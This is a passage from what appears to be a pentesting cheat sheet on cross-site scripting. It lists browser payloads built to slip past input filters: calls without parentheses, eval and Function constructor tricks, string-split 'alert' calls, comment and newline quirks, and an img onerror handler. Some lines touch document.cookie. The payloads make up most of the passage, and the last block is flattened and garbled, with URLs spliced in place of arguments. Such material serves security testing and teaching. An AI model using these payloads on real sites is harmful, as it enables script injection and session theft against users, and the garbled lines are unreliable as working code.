```javascript
alert`1`
<img src=x onerror="window.onerror=eval;throw'=alert\x281\x29'">
eval.call`${'alert\x2823\x29'}`
eval.apply`${[`alert\x2823\x29`]}`
```

* [https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md)
* [https://portswigger.net/research/javascript-without-parentheses-using-dommatrix](https://portswigger.net/research/javascript-without-parentheses-using-dommatrix)

#### JavaScript comments \(from [JavaScript Comments](./#javascript-comments) trick\)

```javascript
//This is a 1 line comment
/* This is a multiline comment*/
#!This is a 1 line comment, but "#!" must to be at the beggining of the line
-->This is a 1 line comment, but "-->" must to be at the beggining of the line
```

#### JavaScript new lines \(from [JavaScript new line](./#javascript-new-lines) trick\)

```javascript
//Javascript interpret as new line these chars:
String.fromCharCode(10) //0x0a
String.fromCharCode(13) //0x0d
String.fromCharCode(8232) //0xe2 0x80 0xa8
String.fromCharCode(8233) //0xe2 0x80 0xa8
```

#### Arbitrary function \(alert\) call

```javascript
//Eval like functions
eval('ale'+'rt(1)')
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Function('ale'+'rt(10)')``;
[].constructor.constructor("alert(document.domain)")``
[]["constructor"]["constructor"]`$${alert()}
```

//General function executions ``//Can be use as parenthesis alert`document.cookie` alert(document['cookie']) with(document)alert(cookie) (alert)(1) (alert(1))in"." a=alert,a(1) [1].find(alert) window['alert'](0) parent['alert'](1) self['alert'](2) top['alert'](3) this['alert'](4) frames['alert'](5) content['alert'](6) [7].map(alert) [8].find(alert) [9].every(alert) [10].filter(alert) [11].findIndex(alert) [12].forEach(alert); top[/al/.source+/ert/.source](1) top[8680439..toString(30)](1) Function("ale"+"rt(1)")(); new Function`al\ert\`6\``; Set.constructor\('ale'+'rt\(13\)'\)\(\); Set.constructor````al\x65rt\x2814\x29```; $='e'; x='ev'+'al'; x=this[x]; y='al'+$+'rt(1)'; y=x(y); x(y) x='ev'+'al'; x=this[x]; y='ale'+'rt(1)'; x(x(y)) this[[]+('eva')+(/x/,new Array)+'l'](/xxx.xxx.xxx.xxx.xx/+alert(1),new Array) globalThis[````al`+/ert/.source]`1`this[`al`+/ert/.source]`1`[alert][0].call(this,1) window['a'+'l'+'e'+'r'+'t']() window['a'+'l'+'e'+'r'+'t'].call(this,1) top['a'+'l'+'e'+'r'+'t'].apply(this,[1]) (1,2,3,4,5,6,7,8,alert)(1) x=alert,x(1) [1].find(alert) top["al"+"ert"](1) top[/al/.source+/ert/.source](1) al\u0065rt(1) al\u0065rt`1\` top['al\145rt'](https://github.com/haiclover/InfoSec/tree/f7f974837932a758accdc568bbbfd074627b200c/pentesting-web/xss-cross-site-scripting/1/README.md) top['al\x65rt'](https://github.com/haiclover/InfoSec/tree/f7f974837932a758accdc568bbbfd074627b200c/pentesting-web/xss-cross-site-scripting/1/README.md) top[8680439..toString\(30\)](https://github.com/haiclover/InfoSec/tree/f7f974837932a758accdc568bbbfd074627b200c/pentesting-web/xss-cross-site-scripting/1/README.md)
